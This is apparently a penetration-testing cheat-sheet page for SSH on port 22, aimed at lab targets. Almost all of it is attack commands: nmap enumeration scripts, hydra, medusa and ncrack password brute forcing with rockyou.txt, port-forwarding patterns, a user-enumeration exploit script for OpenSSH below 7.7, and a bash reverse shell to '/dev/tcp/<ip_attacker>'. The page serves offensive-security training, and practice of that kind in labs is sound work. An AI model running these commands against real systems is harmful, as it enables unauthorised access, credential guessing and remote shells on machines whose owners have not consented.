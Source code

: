 ```yaml
---
title: "PORT 22 - SSH"
draft: false
images: []
menu:
  docs:
    parent: "Ports"
weight: 100
toc: true
---
```


### SSH ENUM
```
nmap -p22 -n -sV --script ssh2-enum-algos 192.168.10.221
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=<username>" <target>
```
### CONNECT TO ANOTHER PORT
```
ssh -p 22022 sunny@10.10.10.76
ERROR: Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1
```
### REVERSE SHELL
```
ssh -p 22022 sunny@10.10.10.76 -oKexALgorithms=+diffie-hellman-group1-sha1 -t '/bin/bash -i >& /dev/tcp/<ip_attacker>/<port_attacker> 0>&1'
```
### BRUTE FORCE
```
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111

medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh

ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111
```
#### SSH TUNNELING
```
ssh -L <localPort>:<ipVictimLocal>:<portVictimForService> <user>@<ipVictim> (FROM ATTACKER BOX)
ssh -L 4444:127.0.0.1:5901 charix@10.10.10.84
```
### LOCAL PORT FORWARDING
```
ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
```
### REMOTE PORT FORWARDING
```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```
### DINAMIC PORT FORWARDING
```
ssh -D <local proxy port> -p <remote port> <target>
```
### ENUM USERS < 7.7
```
https://github.com/six2dez/ssh_enum_script
https://www.exploit-db.com/exploits/45233
python ssh_user_enum.py --port 2223 --userList /root/Downloads/users.txt IP 2>/dev/null 
```